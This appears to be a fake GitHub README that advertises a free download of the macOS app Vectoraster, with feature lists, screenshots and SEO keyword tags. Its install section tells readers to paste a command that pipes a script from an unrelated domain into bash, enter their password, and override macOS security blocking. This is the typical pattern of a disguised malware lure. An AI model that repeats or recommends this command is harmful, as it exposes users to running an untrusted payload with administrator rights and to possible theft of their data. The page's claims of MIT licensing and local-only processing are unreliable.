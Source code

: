 <p align="center">
  <img src="https://i.ibb.co/CZnDrmY/1684337837-icon.webp" alt="Vectoraster macOS Banner" />
</p>

<h1 align="center">Vectoraster for macOS</h1>

<p align="center">
  🟣 Create high-resolution halftone and raster vector patterns from any image — control dots, lines, and shapes in real time.  
  <br><br>
  ✅ Native M1/M2/M3 support  
  ✅ Works on Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/223" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20VECTORASTER%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Vectoraster for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/0yxtHgzY/1626599610-3.jpg" alt="Vectoraster UI Preview" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Vectoraster for macOS?

**Vectoraster** is a macOS-based pattern design tool that lets you convert bitmap images into custom halftone vector graphics. It allows full control over spacing, shapes, distortion, and raster modulation using any image source or gradients.

Export your generated patterns as SVG, PDF, PNG, or TIFF, with professional-level precision — perfect for digital artists, print designers, or experimental creators.

---

## ✅ Why Choose Vectoraster?

- 🟤 **Convert Images to Halftone Dot/Line Patterns**  
- 🧲 **Real-Time Pattern Generation and Adjustment**  
- 🖼️ **Supports Images, Gradients & Live Updates**  
- 📦 **Export to Vector Formats (SVG, PDF)**  
- 🖥️ **Optimized for Apple Silicon (M1/M2/M3)**  
- 🌀 **Dynamic Distortion and Animation Tools**  
- 🧱 **Control Frequency, Opacity, Scale, Angle**  
- 🎯 **Used in Print, Art, Branding, and Motion Design**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/2YFK5znx/1626599605-1.jpg" alt="Vector Shape Customization in Vectoraster" />
  <br><br>
  <img src="https://i.ibb.co/RTcND4HS/1626599675-2.jpg" alt="Live Preview and Export Options" />
</p>

---

## 🚀 Key Features

- Pattern generation from images or gradients  
- Live preview with real-time updates  
- Export to SVG, PDF, PNG, TIFF  
- Dot, line, and custom shape support  
- Raster modulation based on brightness, color, etc.  
- Supports animated raster changes  
- Grid and distortion tools  
- Retina UI and native Apple chip support

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:  
Go to **System Settings > Privacy & Security** → Allow Vectoraster manually.

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Category-Halftone+Generator-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Export-SVG+PDF+Bitmap-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ Vectoraster – Pattern Meets Precision

Thanks for using **Vectoraster for macOS**.  
Turn pixels into geometry — instantly.

---

## 🧭 Usage Context

This app is designed for offline creative workflows.  
All image processing and pattern generation occurs locally.

No cloud sync, no background tracking, fully contained.

---

## 🔍 Tags

```text
vectoraster for mac download, halftone generator app macos, convert bitmap to vector pattern mac, raster to vector tool for macbook, dot line shape raster editor mac, real time halftone preview mac, export vector pattern svg pdf mac, vectoraster mac m1 full version, generate print ready raster graphics mac, vectoraster professional mac design tool, abstract pattern maker mac apple silicon, halftone image converter mac native, distortion tool for vector halftones mac, vector raster image converter mac, vectoraster download mac offline installer
